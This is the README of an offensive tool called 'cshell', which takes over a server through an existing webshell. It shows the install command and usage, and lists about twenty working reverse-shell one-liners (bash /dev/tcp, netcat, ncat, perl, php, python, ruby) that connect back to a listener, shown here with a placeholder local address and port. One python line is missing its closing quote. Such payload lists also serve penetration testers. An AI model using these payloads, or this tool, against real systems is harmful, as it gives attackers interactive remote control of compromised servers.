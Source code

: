# CSHELL
***
This script takes a working webshell as an argument and can perform the following operations
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]

## Install
```pip3 install cshell```
### Usage
```
$ cshell --help
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...

positional arguments:
  {rev,web,lstnr}

optional arguments:
  -h, --help       show this help message and exit
  --payloads       List all payload formats for rev

web     Direct command execution on the webshell with error message
rev     Reverse shell from a working webshell
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]
```


### Payloads
```
$ cshell --payloads
========================================================================================================
Format-Name                     Payload
========================================================================================================
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f
nc                              nc -e /bin/bash 127.0.0.1 1337
nc-c                            nc -c /bin/bash 127.0.0.1 1337
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
